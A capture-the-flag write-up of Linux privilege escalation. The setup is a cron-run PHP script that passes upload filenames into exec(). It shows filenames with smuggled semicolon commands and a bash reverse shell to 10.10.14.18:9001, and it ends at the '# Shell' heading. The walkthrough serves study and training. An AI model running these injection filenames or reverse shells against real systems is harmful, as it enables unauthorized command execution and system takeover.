

# 15 - PrivEsc


# Cronjobs in user guly's home directory
```
bash-4.2$ ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--r--r--. 1 guly guly  33 Oct 30  2018 user.txt
```
# crontab.guly

```
bash-4.2$ cat crontab.guly 
*/3 * * * * php /home/guly/check_attack.php
```
it runs every 3rd minutes


# Vulnerability
```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';

  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);


    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
?>
```

It scans the upload directory and stores the names in `$value`. If a filename doesn't contain an ip address it considers that an attack and tries to remove the file.  This operation is done by `exec` which runs /bin/sh in the background and we have control over `$value`. A semicolon in the filename finishes the command before it and after the semicolon becomes another command. We can inject code by adding semicolons in a filename in uploads directory. One of the best ways to get a shell would  be placing a reverse shell in guly's home directory and executing it.

# Create shell.sh and give full permissions 
```
bash-4.2$ pwd
/var/www/html/uploads
bash-4.2$ touch  "x;touch shell.sh;chmod 777 shell.sh; id"
```

Files are relative to guly's home directory because  it is run from  there. We can't use forward slashes in filenames. 

# shell.sh
```
bash-4.2$ pwd 
/home/guly
bash-4.2$ ls -l
total 16
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-rwxrwxrwx  1 guly guly  42 Jul 10 16:10 shell.sh
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
bash-4.2$ cat shell.sh 
bash -i >& /dev/tcp/10.10.14.18/9001 0>&1
```


# Execute the reverse shell
```
bash-4.2$ pwd
/var/www/html/uploads
bash-4.2$ mv "x;touch shell.sh;chmod 777 shell.sh; id" "x;bash shell.sh; id"
```
Replace the previous file with `"x;bash shell.sh; id"`

# Shell
